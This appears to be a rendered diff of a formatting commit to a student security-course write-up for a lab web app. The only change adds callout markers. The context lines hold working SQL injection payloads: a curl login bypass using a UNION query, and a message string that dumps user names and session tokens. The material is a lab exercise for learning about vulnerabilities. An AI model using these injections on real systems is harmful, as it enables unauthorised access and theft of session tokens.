

Before and after one commit to MingoMango17/CMSC134-Writeups, a Markdown page: Machine_Problem_3/writeup.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
another formatting

````diff
--- a/Machine_Problem_3/writeup.md
+++ b/Machine_Problem_3/writeup.md
@@ -25,6 +25,7 @@ Authors:
 
 List of vulnerabilities discovered:
 
+> [!TIP]
 > **SQL Injection Authentication Bypass (aCVE-2024-0001)**
 >
 > ```bash
@@ -33,6 +34,7 @@ List of vulnerabilities discovered:
 > curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=' UNION select 1 from users; --&password="
 > ```
 
+> [!TIP]
 > **Stored XSS and SQL Injection Vulnerability by Execution of Arbitrary SQL Queries and JavaScript (aCVE-2024-0002)**
 >
 > Use these as the message:
@@ -43,6 +45,7 @@ List of vulnerabilities discovered:
 > - `1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1)--`
 
 
+> [!TIP]
 > **Credential Bypass via SQL Injection on Session Token (aCVE-2024-0003)**
 >
 > ```bash
````
